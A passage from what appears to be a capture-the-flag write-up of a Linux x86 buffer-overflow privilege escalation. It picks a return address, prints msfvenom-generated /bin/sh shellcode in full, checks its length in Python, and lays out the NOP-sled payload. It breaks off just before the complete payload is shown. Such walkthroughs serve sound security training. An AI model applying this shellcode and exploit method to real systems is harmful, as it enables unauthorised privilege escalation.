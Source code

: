 success! we have two instructions at memory address `80484af` and `804862b`.

I'm going to use the 2nd one: `804862b` (add a `0` at the start).

In little endian format, our return address = `\x2b\x86\x04\x08`.

#### validate shellcode

We already have a remote shell access to the box, so let's just spawn a new `/bin/sh` instance, this time with escalated privileges.

Let's use `msfvenom` to generate some shellcode.

```bash
└─$ msfvenom -a x86 --platform linux -p linux/x86/exec CMD=/bin/sh -b '\x00' -f c
Found 11 compatible encoders
Attempting to encode payload with 1 iterations of x86/shikata_ga_nai
x86/shikata_ga_nai succeeded with size 70 (iteration=0)
x86/shikata_ga_nai chosen with final size 70
Payload size: 70 bytes
Final size of c file: 319 bytes
unsigned char buf[] = 
"\xbd\x2c\x4e\x7f\xb7\xd9\xcd\xd9\x74\x24\xf4\x58\x31\xc9\xb1"
"\x0b\x31\x68\x15\x83\xe8\xfc\x03\x68\x11\xe2\xd9\x24\x74\xef"
"\xb8\xeb\xec\x67\x97\x68\x78\x90\x8f\x41\x09\x37\x4f\xf6\xc2"
"\xa5\x26\x68\x94\xc9\xea\x9c\xae\x0d\x0a\x5d\x80\x6f\x63\x33"
"\xf1\x1c\x1b\xcb\x5a\xb0\x52\x2a\xa9\xb6";
```

check shellcode size with python:

```bash
└─$ python3                                                                     
Python 3.9.10 (main, Feb 22 2022, 13:54:07) 
[GCC 11.2.0] on linux
Type "help", "copyright", "credits" or "license" for more information.
>>> shell = (
... "\xbd\x2c\x4e\x7f\xb7\xd9\xcd\xd9\x74\x24\xf4\x58\x31\xc9\xb1"
... "\x0b\x31\x68\x15\x83\xe8\xfc\x03\x68\x11\xe2\xd9\x24\x74\xef"
... "\xb8\xeb\xec\x67\x97\x68\x78\x90\x8f\x41\x09\x37\x4f\xf6\xc2"
... "\xa5\x26\x68\x94\xc9\xea\x9c\xae\x0d\x0a\x5d\x80\x6f\x63\x33"
... "\xf1\x1c\x1b\xcb\x5a\xb0\x52\x2a\xa9\xb6"
... )
>>> print(len(shell))
70
>>>
```

from our payload math above, we have this:

|payload|shellcode + NOP|return address|
|:---:|:---:|:---:|
|116 bytes| shellcode(70) + NOP (46)| 4 bytes|

our payload in full:
